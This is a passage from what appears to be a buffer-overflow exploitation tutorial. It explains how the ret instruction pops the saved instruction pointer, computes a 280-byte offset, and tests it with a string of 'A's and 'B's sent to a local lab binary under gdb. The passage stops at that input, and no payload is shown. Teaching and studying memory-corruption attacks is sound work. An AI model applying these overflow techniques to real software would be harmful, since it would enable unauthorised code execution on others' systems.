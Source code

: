   

#### The `ret` instruction

  

The job of the return instruction is to pop 8 bytes off the top of the stack (where `$rsp` is pointing), and execute the code at the address stored in there.

  

This would normally point back to the saved instruction pointer, but we've overwritten that with our buffer. In fact, we've overwritten that + 32 bytes worth of `B`s (each `B` is one byte) past that.

  

So, to adjust our buffer we need `0x100 + (64 - 32 - 8)` bytes worth of filler to reach the `saved rip` where we'll put our exploit (280 bytes).

  

### Verifying our Buffer

  

To verify we have the correct buffer, let's crash the program again, but this time using a buffer of 280 `A`s + 8 `B`s:

  

```python

┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ python

Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux

Type "help", "copyright", "credits" or "license" for more information.

>>> b'A'*280 + b'B'*8

b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'

>>>

```

  

```bash

┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ gdb ./vuln_1

run

Starting program: /home/hakcypuppy/tsar/vuln_1

[Thread debugging using libthread_db enabled]

Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Hey, whats your name!?

  

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```
